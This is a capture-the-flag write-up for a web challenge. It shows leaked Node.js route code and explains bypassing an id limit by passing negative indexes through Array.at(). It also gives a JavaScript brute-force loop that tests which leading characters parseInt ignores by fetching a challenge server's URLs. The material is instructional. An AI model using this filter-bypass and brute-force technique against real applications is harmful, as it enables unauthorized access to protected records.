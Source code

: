 It will be too simple ! So let's bruteforce a little bit and see if we can recover some informations, on "http://3.141.109.49/jutsu/1", we recover a part of the source code :

```js
let id = parseInt(request.params.id, 10);
    if (id &gt; 9) {
            return res.render("jutsu",{jutsu:"Access Denied sorry"})
    }
const jutsu = articles.at(id) ?? {
        jutsu: "Not found";
};
return res.render("jutsu",jutsu);
```

Here, we conclude that it will not be possible to read a file with an id greater than 9, which is very annoying.

But, in this challenge, a hint was present and said that in total, there were 10000 jutsus. If you paid attention to the source code, you can see that it uses the at() function on the jutsus array, but in this function, if you pass a negative number, it will fetch the corresponding array element. For us, we want to have the element 1337, so we will go and look for the element -8663 :

![alt](images/4.png)

And it doesn't work, because there is a filter that prevents us from passing the "-" character at the beginning.

But, in javascript, there are some characters that are not interpreted by the parseInt() function, example :

![alt](images/5.png)

But this character (0x0a) is also forbidden. Here, I'll start with a bruteforce approach, to see if a character will be accepted or not :

```js
for(var i=0; i<10000; i++){
    res = parseInt(String.fromCharCode(i)+"-8663",10)
    if(res == -8663){
        fetch("http://3.141.109.49/jutsu/"+String.fromCharCode(i)+"-8663")
        .then(
            response => response.text()
        ).then(
            text => function(){
                if(text.includes("Hacking") == false) console.log(test)
            }
        )
    }
  }
```

